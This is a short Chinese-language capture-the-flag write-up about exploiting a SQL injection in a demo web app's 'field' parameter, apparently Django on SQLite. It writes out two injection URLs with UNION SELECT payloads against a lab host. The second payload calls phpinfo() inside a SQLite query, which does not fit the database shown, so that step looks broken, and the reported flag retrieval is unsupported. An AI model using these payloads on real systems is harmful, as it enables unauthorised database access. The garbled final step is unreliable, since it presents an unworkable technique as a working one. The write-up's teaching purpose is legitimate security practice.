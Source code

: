 进入demo查看，发现报错：

![image-20230211180052845](2024-02-13/image-20230211180052845.png)

报错信息：the annotation 'name' conficts with a field on the model 

使用报错信息 demo?field=demo.name 构造POC 

```http
POC:  http://10.0.0.128:24115/demo/?field=demo.name" FROM "demo_user" union SELECT "1",sqlite_version(),"3" --
```

![image-20230211174011623](2024-02-13/image-20230211174011623.png)

**3.获取flag**

在此注入发现版本号3.34.1，重新改造POC 

```http
POC:  http://10.0.0.128:24115/demo/?field=demo.name" FROM "demo_user" union SELECT "1",phpinfo(),"3" --
```

通过ctrl+F 搜索 flag，取得最终的flag

